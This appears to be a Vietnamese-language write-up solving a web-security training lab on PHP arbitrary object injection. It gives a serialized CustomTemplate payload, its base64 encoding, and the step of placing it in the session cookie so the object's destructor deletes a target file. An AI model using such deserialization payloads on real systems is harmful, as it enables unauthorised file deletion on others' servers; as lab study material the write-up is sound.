

# Lab: Arbitrary object injection in PHP

## Nhận diện

- Mở Web Tools và kiểm tra tab Elements ở trang chủ để tìm manh mối tới `/libs/CustomTemplate.php`.
- Class này có magic method có thể bị lợi dụng khi object được deserialized.



## Khai thác

- Tạo object `CustomTemplate` trỏ tới file mục tiêu.

```txt
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

- Base64 encode payload thành:

```txt
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ
```

- Thay session cookie bằng payload này để kích hoạt object injection.

## Kết quả

- `__destruct()` được gọi và file `morale.txt` bị xóa.
- Lab hoàn thành.
